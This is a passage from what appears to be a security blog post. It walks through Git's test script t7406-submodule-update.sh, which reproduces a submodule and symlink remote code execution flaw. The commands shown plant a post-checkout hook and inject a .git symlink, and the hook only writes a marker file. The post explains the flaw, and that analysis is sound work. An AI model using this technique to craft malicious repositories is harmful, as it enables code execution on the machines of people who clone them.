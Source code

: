 The second file, `t/t7406-submodule-update.sh`, is a test script:

![](https://github.com/amalmurali47/blog/assets/3582096/c1dfff52-d11d-49e9-a8bf-33736103d2fc)

Test script

From a quick look, it appeared to have a treasure-trove of information regarding the vulnerability reproduction. It looked very promising! I decided to focus on it.

### 1. Global configuration

```
test_config_global protocol.file.allow always &&
test_config_global core.symlinks true &&
tell_tale_path="$PWD/tell.tale" &&


```

*   The script sets Git configuration options: `protocol.file.allow always` enables file protocol for Git. `core.symlinks true` ensures symlink support is enabled.
*   It also defines `tell_tale_path` as a marker file to check if the RCE worked.

### 2. Setting up the hook repository

```
git init hook &&
(
    cd hook &&
    mkdir -p y/hooks &&
    write_script y/hooks/post-checkout <<-EOF &&
    echo HOOK-RUN >&2
    echo hook-run >"$tell_tale_path"
    EOF
    git add y/hooks/post-checkout &&
    test_tick &&
    git commit -m post-checkout
) &&


```

*   Initializes a new repository named `hook`.
*   Creates a `post-checkout` hook that writes `hook-run` to `tell_tale_path`.
*   Commits the hook script to the hook repository.

### 3. Setting Up the Main Repository:

```
hook_repo_path="$(pwd)/hook" &&
git init captain &&
(
    cd captain &&
    git submodule add --name x/y "$hook_repo_path" A/modules/x &&
    test_tick &&
    git commit -m add-submodule &&
    printf .git >dotgit.txt &&
    git hash-object -w --stdin <dotgit.txt >dot-git.hash &&
    printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" >index.info &&
    git update-index --index-info <index.info &&
    test_tick &&
    git commit -m add-symlink
) &&


```
